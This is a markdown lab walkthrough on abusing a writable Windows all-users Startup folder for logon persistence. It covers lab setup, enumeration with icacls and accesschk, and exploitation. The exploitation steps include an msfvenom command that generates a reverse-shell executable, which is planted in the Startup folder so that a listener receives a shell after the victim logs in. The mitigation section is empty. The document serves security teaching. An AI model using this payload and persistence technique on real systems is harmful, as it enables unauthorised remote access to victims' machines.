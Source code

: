 # Logon Autostart Execution (Startup Folder)

## Table of Contents

- [Logon Autostart Execution (Startup Folder)](#logon-autostart-execution-startup-folder)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Logon Autostart Execution via Startup Folder is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up.

Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Startup Folder. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges. 

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are usinfg Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Navigate via File Explorer to the directory which contains StartUp Folder using the following path:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-1](/Pictures/AutostartStartupFolder-LabSetup-Part1.png)

2) Right click on Startup folder and choose properties option:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-2](/Pictures/AutostartStartupFolder-LabSetup-Part2.png)

3) Choose the 'Security' tab and select the 'Users' group:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-3](/Pictures/AutostartStartupFolder-LabSetup-Part3.png)

4) Assign Full Control or Read and Write permissions to the Users group and then press the 'Apply' button:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-4](/Pictures/AutostartStartupFolder-LabSetup-Part4.png)

### PowerShell Script Lab Setup 

:warning: <b>If you are usinfg Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Logon Autostart Execution (Startup Folder)' scenario use the custom PowerShell script named [LogonAutostartExecutionStartupFolder.ps1](/Lab-Setup-Scripts/LogonAutostartExecutionStartupFolder.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\LogonAutostartExecutionStartupFolder.ps1
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Script](/Pictures/AutostartStartupFolder-LabSetup-Script.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation is vulnerable to the Startup Folder Autoruns issue, you can use the following command from a command prompt:

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Manual-Enumeration](/Pictures/AutostartStartupFolder-Manual-Enumeration.png)

### Tool Enumeration

To perform an enumeration of the `Startup Folder Autoruns` vulnerability, you can use accesschk.exe or accesschk64.exe from Sysinternals Suite and execute the following command with appropriate arguments:

```
accesschk.exe /accepteula "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Tool-Enumeration](/Pictures/AutostartStartupFolder-Tool-Enumeration.png)

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup'.

Outcome:

![AutostartStartupFolder-Exploitation](/Pictures/AutostartStartupFolder-Exploitation.png)

4) Open a listener on your Kali machine.

5) Reboot the victim's machine and login as Adminstrator:

![Reboot-victim-machine](/Pictures/Reboot-Victim-Machine2.png)

6) Verify the reverse shell on your Kali machine:

## Mitigation

## References
